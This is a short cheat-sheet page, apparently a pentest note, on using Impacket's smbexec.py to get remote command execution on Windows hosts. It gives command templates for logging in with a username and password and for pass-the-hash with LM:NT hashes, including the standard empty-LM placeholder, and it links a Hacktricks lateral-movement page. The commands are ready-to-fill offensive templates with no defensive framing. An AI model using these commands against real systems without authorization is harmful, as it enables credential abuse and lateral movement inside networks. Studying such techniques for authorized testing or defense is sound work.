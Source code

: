 # Impacket

- Authenticate via impacket script with smbexec

`$ smbexec.py <username>:<password>@<IP> [-codecs <codec>]`

- Pass the Hash

```
$ smbexec.py <username>@<IP> -hashes <LM>:<NT>

$ smbexec.py <domain_name>/<username>@<IP> -hashes 0000000000000000000000000000000:<NT>

$ smbexec.py <domain_name>/<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<NT>
```

---
## References

- [Hacktricks: SmbExec/ScExec](https://book.hacktricks.xyz/windows-hardening/lateral-movement/smbexec)